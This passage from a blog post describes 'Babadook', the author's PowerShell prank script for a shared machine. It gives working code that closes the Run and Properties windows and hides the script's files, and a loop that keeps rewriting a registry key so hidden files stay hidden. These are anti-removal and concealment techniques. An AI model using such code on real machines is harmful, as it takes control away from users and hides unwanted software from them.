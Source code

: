         public const int WM_SYSCOMMAND = 0x0112;
        public const int SC_CLOSE = 0xF060;                
        }
"@

Function Kill-Run {
    $ForegroundWindow = [apifuncs]::GetForegroundWindow()
    $WindowTextLen = [apifuncs]::GetWindowTextLength($ForegroundWindow)
    $StringBuffer = New-Object text.stringbuilder -ArgumentList ($WindowTextLen + 1)
    $ReturnLen = [apifuncs]::GetWindowText($ForegroundWindow,$StringBuffer,$StringBuffer.Capacity)
    $WindowText = $StringBuffer.tostring()
    if ($WindowText -eq "Run") {
        [void][apifuncs]::SendMessage($ForegroundWindow, [apifuncs]::WM_SYSCOMMAND, [apifuncs]::SC_CLOSE, 0)
    }# end :: if
}# end :: Kill-Run
{{< /highlight >}}

##### Hiding in plain sight

To add a sleight of fear, I&#8217;d thought it would be nice to hide my Babadook files since if my victim could find the command script on the shared folder, he could add some code there to kill Babadook and end my party, so a little code to get this sorted out was added to the Watchdog:

{{< highlight powershell >}}
Function Hide-Me {
    If (Test-Path $ScriptPath) { $(Get-Item $ScriptPath -Force).Attributes = "Archive,Hidden" }
    If (Test-Path $CurrMachineCmdPath) { $(Get-Item $CurrMachineCmdPath -Force).Attributes = "Archive,Hidden" }
    If (Test-Path $LogPath) { $(Get-Item $LogPath -Force).Attributes = "Archive,Hidden" }
    Set-ItemProperty HKCU:\\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced -Name Hidden -Value 2 # Don't display hidden files
}# end :: Hide-Me
{{< /highlight >}}

The last line adds an entry to the Registry turning on the option &#8220;Don&#8217;t display system and hidden files&#8221;. As this was on the `While ($true)` loop, even if the user turned that off, it would be turned back on immediately.

#### Take no shortcuts

With my anti-kill countermeasures in place, I was thinking on more ways to kill Babadook to improve the Watchdog, so it came to my mind that one could create a shortcut for `taskill` so I&#8217;ve made a little modification to my &#8220;Run Killer&#8221;:

{{< highlight powershell >}}
# ... some code

if ($WindowText -eq "Run" -Or $WindowText.Contains("Properties")) {
    [void][apifuncs]::SendMessage($ForegroundWindow, [apifuncs]::WM_SYSCOMMAND, [apifuncs]::SC_CLOSE, 0)
}# end :: if


 [1]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa383607(v=vs.85).aspx
 [2]: https://github.com/jseidl/Babadook